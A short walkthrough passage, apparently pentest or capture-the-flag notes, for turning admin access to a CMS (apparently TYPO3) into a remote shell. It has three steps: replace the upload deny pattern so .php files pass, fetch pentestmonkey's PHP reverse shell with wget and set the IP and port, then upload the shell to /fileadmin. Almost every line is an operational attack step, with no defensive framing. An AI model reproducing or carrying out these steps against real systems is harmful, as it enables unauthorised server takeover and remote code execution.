 ![image26](../resources/2973f5844bef4c028bc5d1f4888c886d.png)

\*ADMIN TOOLS -\> \*Settings -\>Configure Installation Wide Options...


![image27](../resources/200a7e4e66564d288dbb7b08a323d860.png)

Replace the line in there with:

```bash
\.(phpsh|phtml|pht|phar|shtml|cgi)(\..*)?$|\.pl$|^\.htaccess$

```
Download a php reverse shell:  
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

```
and change the IP and PORT

Upload the file:

Go to "FILE" → "Filelist" and upload the payload to the root of /fileadmin
